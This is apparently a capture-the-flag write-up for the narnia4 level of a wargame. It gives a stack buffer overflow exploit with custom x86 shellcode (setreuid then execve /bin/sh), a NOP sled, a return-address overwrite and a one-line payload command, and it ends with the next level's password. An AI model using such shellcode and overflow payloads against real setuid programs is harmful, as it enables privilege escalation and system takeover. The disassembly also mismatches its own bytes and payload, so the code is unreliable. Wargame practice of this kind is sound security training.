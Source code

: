 In this exploit we have no `ASLR` and `NX` disable so I decided to create my own shellcode.
This shellcode perform 2 syscall:
* `setreuid` -> set real and effective uid to suid user(Narnia5 -> check in passwd -> 14005)
* `execve /bin/sh`



In order to have the string `/bin/sh` in process's address layout I opted to load in argv[2] the string `/bin/sh` several times (7).
I filled buffer variable with a series of NOP instructions and the shellcode at the end, then I added some junk bytes in order to fill the void between my bytes and RA.

After this I overwritten the RA with a generic address in order to jump among the NOPs.

To make the shellcode works it is necessary that spacing characters are not included in the shellcode.


This is my PIC:


```assembly
08048054 <_start>:
 8048054:	31 db                	xor    %ebx,%ebx
 8048056:	31 c9                	xor    %ecx,%ecx
 8048058:	31 c0                	xor    %eax,%eax
 804805a:	31 ff                	xor    %edi,%edi
 804805c:	66 bb b5 36          	mov    $0x36b5,%bx
 8048060:	66 b9 b5 36          	mov    $0x36b5,%cx
 8048064:	b0 46                	mov    $0x46,%al
 8048066:	cd 80                	int    $0x80
 8048068:	31 d2                	xor    %edx,%edx
 804806a:	31 db                	xor    %ebx,%ebx
 804806c:	31 c9                	xor    %ecx,%ecx
 804806e:	31 c0                	xor    %eax,%eax
 8048070:	b0 3b                	mov    $0x0b,%al
 8048072:	bb cc ff ff ff       	mov    $0xffffffcc,%ebx   # I change this value with address "/bin/sh" passed as argument, note that I pass several arguments with that string
 8048077:	cd 80                	int    $0x80
 
 ```


```bash
$ ./narnia4 $(python -c 'print "\x90"*217+"\x31\xdb\x31\xc9\x31\xc0\x31\xff\x66\xbb\xb5\x36\x66\xb9\xb5\x36\xb0\x46\xcd\x80\x31\xc9\x31\xd2\x31\xff\x31\xc0\xb0\x0b\xbb\xe7\xd7\xff\xff\xcd\x80"+"b"*18+"\x70\xd7\xff\xff"+" "+"/////bin/sh "*7')
```



##### PASS=faimahchiy


------------------------------------------------------------------------------------------------------------------------------------


## narnia5 -> narnia6
